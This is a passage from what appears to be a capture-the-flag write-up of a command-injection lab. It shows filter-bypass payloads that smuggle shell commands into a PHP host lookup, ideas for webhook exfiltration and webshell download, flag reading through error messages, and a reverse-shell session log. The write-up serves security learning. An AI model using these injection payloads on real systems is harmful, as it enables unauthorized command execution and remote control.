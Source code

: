 Explanation: If we insert it into `"host '" . $_POST['name'] . "';"`m it would be like `host ''$(which${IFS}bash)'';`
The quotes with no content does nothing in shell (like an empty string). And using `$()` is a classic way to execute a command.

### Webhook to get the output

I know coming up this idea first is really strange. Maybe it's because I'm strange (?).

The gimmick is that we can send a post request to a webhook and ends with ``whoami``, so that we can get the output of `whoami` in the webhook.

But the problem of this exploitation is that we cannot see the whole output just like the error message case. And we cannot use `| base64` to encode the whole output because `|` is banned.

Not a good idea.

### Uploading a webshell?

Can we download the webshell and execute it? After some trying, I found that this machine doesn't have `wget` but has `curl`, so we can download files.

However, although our server get a response from `curl` (I setup a simple http server and monitor the request), we cannot write the output to a file. (Since we don't have write access). We are `www-data`, a really low-privileged user.

Failed...

### What if we know the flag directory in advance?

If we dive into the [Dockerfile of this challenge](https://github.com/splitline/How-to-Hack-Websites/blob/master/lab/cmd-injection/docker-compose.yml), we can see that the flag is at `/flag_f4b9830a65d9e956`, so we can use 

```bash
'$(cat /f*_*)'
```

to get the flag from the error message. (since the word `flag` is banned)

```bash
Host FLAG{Y0U_\$\(Byp4ssed\)_th3_`waf`} not found: 2(SERVFAIL)
```

What if the flag has spaces? So this is definitely not a general solution.

IMO, I think this is a really bad practice because in real world our goal is not reading a flag we already know where it is! We need to do something useful like remote control. I don't think you really solve this challenge by this method.

### We can get a reverse shell, really?

**Yes, exactly!** Here's the proof:

```bash
www-data@b10b0dfad73d:/var/www/html$ ls
ls
index.php
www-data@b10b0dfad73d:/var/www/html$ whoami
whoami
www-data
www-data@b10b0dfad73d:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@b10b0dfad73d:/var/www/html$ cd /
cd /
www-data@b10b0dfad73d:/$ ls 
ls
bin
boot
```